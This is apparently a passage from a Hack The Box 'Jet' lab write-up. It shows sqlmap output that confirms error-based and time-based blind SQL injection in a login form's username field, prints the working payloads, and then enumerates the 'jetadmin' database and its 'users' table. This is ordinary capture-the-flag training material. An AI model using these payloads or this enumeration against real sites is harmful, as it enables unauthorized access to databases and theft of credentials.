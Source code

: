 ```sh
[15:56:26] [INFO] resuming back-end DBMS 'mysql' 
[15:56:26] [INFO] testing connection to the target URL
got a 302 redirect to 'http://www.securewebinc.jet:80/dirb_safe_dir_rf9EmcEIx/admin/login.php'. Do you want to follow? [Y/n] 
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] 
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=tdAj'||(SELECT 0x454a5449 WHERE 4120=4120 AND (SELECT 9153 FROM(SELECT COUNT(*),CONCAT(0x71627a6a71,(SELECT (ELT(9153=9153,1))),0x7176627071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=tdAj'||(SELECT 0x626a7765 WHERE 9743=9743 AND (SELECT 3364 FROM (SELECT(SLEEP(5)))yqgd))||'&password=
---
[15:56:28] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0
[15:56:28] [INFO] fetching database names
[15:56:28] [INFO] retrieved: 'information_schema'
[15:56:28] [INFO] retrieved: 'jetadmin'
available databases [2]:
[*] information_schema
[*] jetadmin
```

We see there is a database is called jetadmin, let's get it's tables:

```sh
┌──(root💀kali)-[~/htb/jet]
└─# sqlmap -r jet-login -D jetadmin --tables                                                                                                                                                                                             2 ⨯
        ___
       __H__                                                                                                                                                                                                                                 
 ___ ___[(]_____ ___ ___  {1.5.11#stable}                                                                                                                                                                                                    
|_ -| . [.]     | .'| . |                                                                                                                                                                                                                    
|___|_  [(]_|_|_|__,|  _|                                                                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                 
[*] starting @ 15:56:53 /2021-11-19/
[15:56:53] [INFO] parsing HTTP request from 'jet-login'
[15:56:53] [INFO] resuming back-end DBMS 'mysql' 
[15:56:53] [INFO] testing connection to the target URL
got a 302 redirect to 'http://www.securewebinc.jet:80/dirb_safe_dir_rf9EmcEIx/admin/login.php'. Do you want to follow? [Y/n] 
<SNIP>
[15:56:55] [INFO] fetching tables for database: 'jetadmin'
[15:56:55] [INFO] retrieved: 'users'
```